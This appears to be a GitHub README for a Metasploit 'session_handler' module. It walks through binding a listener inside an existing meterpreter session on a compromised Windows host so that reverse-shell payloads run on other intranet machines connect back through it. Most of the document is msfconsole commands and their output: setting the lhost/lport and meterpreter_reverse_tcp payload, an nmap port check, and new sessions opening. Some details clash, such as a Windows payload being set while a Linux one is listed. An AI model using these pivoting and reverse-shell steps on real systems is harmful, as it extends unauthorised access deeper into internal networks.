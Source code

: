 # session_handler
bind handler in meterpreter session 

frist you need get a meretpreter session 
```bash
msf6 exploit(multi/handler) > sessions 

活动会话
============

  Id  名称    类型                     信息           连接
  --  ------    ------                     ------           ------
  1           meterpreter x86/windows  w-PC\w @ W-PC  192.168.56.1:4444 -> 192.168.56.102:49402 (192.168.56.102)
```




run  use exploit/multi/session_handler 
```bash

msf6 exploit(multi/handler) >   use exploit/multi/session_handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/session_handler) > options
msf6 exploit(multi/session_handler) > set lport  14444 
msf6 exploit(multi/session_handler) > set lhost 192.168.56.1 #local machine public address 
msf6 exploit(multi/session_handler) > set payload windows/x64/meterpreter_reverse_tcp 
msf6 exploit(multi/session_handler) > set session  1 #the meterpreter sessionid  
msf6 exploit(multi/session_handler) > run -j #as job
msf6 exploit(multi/session_handler) > jobs 

Jobs
====

  Id  name                           payload                          options
  --  ------                            ------------                           ------------------
  5   Exploit: multi/session_handler  linux/x64/meterpreter_reverse_tcp  tcp://192.168.56.1:14444
```


now ,you can see the port  14444 is binding in  192.168.56.102 (meterpreter session machine).

check port is open with nmap 

```bash
Starting Nmap 7.80 ( https://nmap.org ) at 2022-07-30 17:43 CST
Nmap scan report for 192.168.56.102
Host is up (0.00047s latency).

PORT      STATE SERVICE
14444/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 0.03 seconds
```




 execute windows/x64/meterpreter_reverse_tcp on other machine (The machine must have access to 192.168.56.102  ) , the you will be get a new meterpreter session from intranet host.

```bash
msf6 exploit(multi/session_handler) > [*] Meterpreter session 3 opened (192.168.56.1:14444 -> 192.168.56.1:40977) at 2022-07-30 17:32:46 +0800
msf6 exploit(multi/session_handler) > 
msf6 exploit(multi/session_handler) > sessions 
活动会话
============

  Id  Nmae  Type                     Info                                                                    Connection
  --  ------    ------                     ------                                                                    ------
  1           meterpreter x86/windows  w-PC\w @ W-PC                                                           192.168.56.1:4444 -> 192.168.56.102:49402 (192.168.56.102)
  3           meterpreter x86/linux    w @ w-F117-V (uid=1000, gid=1000, euid=1000, egid=1000) @ 192.168.1.12  192.168.56.1:14444 -> 192.168.56.1:40977 (192.168.56.1)
```
